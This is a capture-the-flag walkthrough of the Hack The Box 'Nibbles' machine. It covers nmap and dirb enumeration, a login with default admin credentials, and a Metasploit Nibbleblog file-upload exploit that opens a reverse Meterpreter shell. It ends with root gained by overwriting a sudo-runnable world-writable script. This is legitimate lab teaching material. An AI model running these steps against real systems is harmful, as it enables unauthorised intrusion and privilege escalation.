



---
search:
  exclude: true
---
# Nibbles Writeup

## Introduction :

Nibbles is an easy Linux Box that was released back in January 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.75
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 09:16 CET
      Nmap scan report for 10.10.10.75
      Host is up (0.081s latency).
      Not shown: 998 closed ports
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
      |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
      |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Site doesnt have a title (text/html).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
    
    

## **Part 2 : Getting User Access**

The previous nmap scan seems to have found a web service running at the 80th port. Let's see what lies at the http://10.10.10.75/ URL using the curl command with the -vsk flags.
    
    
       λ nihilist [ 10.10.14.48/23 ] [~] → curl -vsk http://10.10.10.75/
    *   Trying 10.10.10.75:80...
    * TCP_NODELAY set
    * Connected to 10.10.10.75 (10.10.10.75) port 80 (#0)
    > GET / HTTP/1.1
    > Host: 10.10.10.75
    > User-Agent: curl/7.67.0
    > Accept: */*
    >
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Thu, 21 Nov 2019 08:23:50 GMT
    < Server: Apache/2.4.18 (Ubuntu)
    < Last-Modified: Thu, 28 Dec 2017 20:19:50 GMT
    < ETag: "5d-5616c3cf7fa77"
    < Accept-Ranges: bytes
    < Content-Length: 93
    < Vary: Accept-Encoding
    < Content-Type: text/html
    <
    **Hello world!**
    
    
    <****!-- /nibbleblog/ directory. Nothing interesting here! -->
    * Connection #0 to host 10.10.10.75 left intact

It seems like there is a comment at the bottom of the page that refers to a directory named "nibbleblog" Let's run the dirb command to see what interesting files we could find in this directory.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → dirb http://10.10.10.75/nibbleblog/
    
    -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------
    
    START_TIME: Thu Nov 21 09:27:27 2019
    URL_BASE: http://10.10.10.75/nibbleblog/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
    ==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
    + http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)
    

Dirbuster seems to have found the admin.php page ! We browse to the URL to see what we're dealing with.

This login page has been misconfigured because fuzzing just a little with the possible default credentials we find that **"admin:nibbles"** is actually able to log us in ! 

navigating to the Settings page we see that we're dealing with Nibbleblog 4.0.3 "Coffee" Let's run a quick searchsploit command to try to find out which exploits we could use onto the machine.
    
    
    λ nihilist [ 10.10.14.48/23 ] [~] → searchsploit Nibbleblog 4.0.3
    -------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                |  Path
                                                                  | (/usr/share/exploitdb/)
    -------------------------------------------------------------- ----------------------------------------
    Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)         | exploits/php/remote/38489.rb
    -------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

There seems to be a metasploit script for us to use, that take advantage of an Arbitrary File Upload vulnerability. Let's fire up msfconsole and choose the according script. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → msfconsole
    [-] ***rtinG the Metasploit Framework console...\
    [-] * WARNING: No database support: No database YAML file
    [-] ***
    
         ,           ,
        /             \
       ((__---,,,---__))
          (_) O O (_)_________
             \ _ /            |\
              o_o \   M S F   | \
                   \   _____  |  *
                    |||   WW|||
                    |||     |||
    
    
           =[ metasploit v5.0.60-dev                          ]
    + -- --=[ 1947 exploits - 1089 auxiliary - 333 post       ]
    + -- --=[ 556 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 7 evasion                                       ]
    
    msf5 > search nibbleblog 4.0.3
    
    Matching Modules
    ================
    
       #  Name                                                Disclosure Date  Rank       Check  Description
       -  ----                                                ---------------  ----       -----  -----------
       0  auxiliary/dos/android/android_stock_browser_iframe  2012-12-01       normal     No     Android Stock Browser Iframe DOS
       1  exploit/multi/http/nibbleblog_file_upload           2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability
    
    
    msf5 > use exploit/multi/http/nibbleblog_file_upload
    msf5 exploit(multi/http/nibbleblog_file_upload) > show options
    
    Module options (exploit/multi/http/nibbleblog_file_upload):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       PASSWORD                    yes       The password to authenticate with
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       The base path to the web application
       USERNAME                    yes       The username to authenticate with
       VHOST                       no        HTTP server virtual host
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Nibbleblog 4.0.3
    
    
    msf5 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
    RHOSTS => 10.10.10.75
    msf5 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
    TARGETURI => /nibbleblog/
    msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME
    [-] Unknown variable
    Usage: set [option] [value]
    
    Set the given option to value.  If value is omitted, print the current value.
    If both are omitted, print options that are currently set.
    
    If run from a module context, this will set the value in the module
    datastore.  Use -g to operate on the global datastore
    
    msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
    USERNAME => admin
    msf5 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
    PASSWORD => nibbles
    msf5 exploit(multi/http/nibbleblog_file_upload) > exploit
    
    

We hit exploit and see what results we can get. 
    
    
      msf5 exploit(multi/http/nibbleblog_file_upload) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.48:4444
    [*] Sending stage (38288 bytes) to 10.10.10.75
    [*] Meterpreter session 1 opened (10.10.14.48:4444 -> 10.10.10.75:47254) at 2019-11-21 09:46:53 +0100
    [+] Deleted image.php
    ls
    
    meterpreter > ls
    Listing: /var/www/html/nibbleblog/content/private/plugins/my_image
    ==================================================================
    
    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100644/rw-r--r--  258   fil   2019-11-21 09:47:03 +0100  db.xml
    
    meterpreter > sysinfo
    Computer    : Nibbles
    OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
    Meterpreter : php/linux
    
    meterpreter > shell
    Process 1707 created.
    Channel 0 created.
    
    cat /home/nibbler/user.txt
    b0XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

It spawned us a meterpreter session ! We then created a shell , which was logged as the user Nibbler. We have then been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Let's first get a fully interactive shell using the python pty.spawn one liner.
    
    
      python3 -c 'import pty;pty.spawn("/bin/bash")'
    nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /
    
    nibbler@Nibbles:/$ ls
    ls
    bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
    boot  initrd.img      lost+found  proc	snap  usr
    dev   initrd.img.old  media	  root	srv   var
    etc   lib	      mnt	  run	sys   vmlinuz
    

Let's navigate to /home/nibbler/ and see what we can work with. 
    
    
      nibbler@Nibbles:/$ cd home/nibbler
    cd home/nibbler
    nibbler@Nibbles:/home/nibbler$ ls
    ls
    personal.zip  user.txt
    

There seems to be a zip file here, let's unzip it and see what's inside. 
    
    
    nibbler@Nibbles:/home/nibbler$ unzip personal.zip
    unzip personal.zip
    Archive:  personal.zip
       creating: personal/
       creating: personal/stuff/
      inflating: personal/stuff/monitor.sh
    
    nibbler@Nibbles:/home/nibbler$ cd personal/stuff
    cd personal/stuff
    
    nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
    ls
    monitor.sh
    
    nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
    ls -l
    total 4
    -rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
    

Here is our opportunity ! the monitor.sh script has got the 777 permissions, meaning that we can run commands of our choice within that script, with root permissions. We will try to print out the root flag by writing into the script the cat command.
    
    
      nibbler@Nibbles:/home/nibbler/personal/stuff$ cat /root/root.txt
    cat: /root/root.txt: Permission denied
    
    nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
    echo "cat /root/root.txt" > monitor.sh
    
    nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
    sudo -u root ./monitor.sh
    sudo: unable to resolve host Nibbles: Connection timed out
    b6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

